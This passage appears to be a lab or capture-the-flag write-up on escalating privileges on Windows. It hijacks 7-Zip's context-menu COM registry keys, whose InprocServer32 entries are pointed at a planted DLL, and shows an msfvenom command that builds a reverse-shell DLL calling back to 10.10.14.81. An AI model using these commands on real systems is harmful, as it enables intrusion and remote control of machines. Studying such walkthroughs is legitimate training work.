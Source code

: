 ```
        - This permission change is logged and will be rolled back once the archiving utility is confirmed
        stable in all environments.
        - Let DevOps know if you encounter access errors or missing shell actions.
        Thanks,
        BB Morgan
        IT Department
        Page 1
```

I'm going to spend a lot of time myself iterating through properties of the registry. It's been a long time since I've touched it, so many scripts will be vibecoded to this end. I'll leave some here for the more interesting ones.

Something to try to dump the whole registry. These thigns are huge. This was a terrible idea. Just use reg query. Toku wtf are you doing.

```powershell
foreach ($hive in 'HKLM','HKCU','HKCR','HKU','HKCC') { Get-ChildItem -Path "${hive}:\\" -Recurse -ErrorAction SilentlyContinue | ForEach-Object { try { Get-ItemProperty -Path $_.PSPath -ErrorAction Stop | Select-Object @{n='Hive';e={$hive}}, @{n='Key';e={$_.PSParentPath}}, @{n='Value';e={$_.PSChildName}}, * } catch {} } | Export-Csv -Append -NoTypeInformation -Path ".\${hive}_regdump.csv" }
```

At some point I got the hint. After querying for 7-zip and various permutations, i found the keys that I was looking for that relate to the context menus. Using this I found I was even able to write to these keys explicitly, where I couldn't do this on any other key. Pretty sure this is the right vector then.

To this end, I'll generate some dlls to use for triggering a reverse shell.

```powershell
reg query HKLM /f 7-zip32.dll /t REG_SZ /s

PS C:\Windows> Set-ItemProperty -Path 'HKLM:\SOFTWARE\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32' -Name '(default)' -Value 'C:\Windows\Temp\7zip.dll'
PS C:\Windows> Set-ItemProperty -Path 'HKLM:\SOFTWARE\Classes\WOW6432Node\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32' -Name '(default)' -Value 'C:\Windows\Temp\7zip.dll'

reg query HKLM /f {23170F69-40C1-278A-1000-000100020000} /s
```

The reverse shell I'll be using:


```python
!msfvenom -p windows/x64/shell/reverse_tcp lport=9999 lhost=10.10.14.81 -f dll > 7zip.dll
```

    Source locally installed gems is ignoring #<Bundler::StubSpecification name=rbs version=3.4.0 platform=ruby> because it is missing extensions
    Source locally installed gems is ignoring #<Bundler::StubSpecification name=racc version=1.7.3 platform=ruby> because it is missing extensions
    Source locally installed gems is ignoring #<Bundler::StubSpecification name=debug version=1.9.2 platform=ruby> because it is missing extensions
    Source locally installed gems is ignoring #<Bundler::StubSpecification name=rbs version=3.4.0 platform=ruby> because it is missing extensions
    Source locally installed gems is ignoring #<Bundler::StubSpecification name=racc version=1.7.3 platform=ruby> because it is missing extensions
    Source locally installed gems is ignoring #<Bundler::StubSpecification name=debug version=1.9.2 platform=ruby> because it is missing extensions
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 510 bytes
    Final size of dll file: 9216 bytes
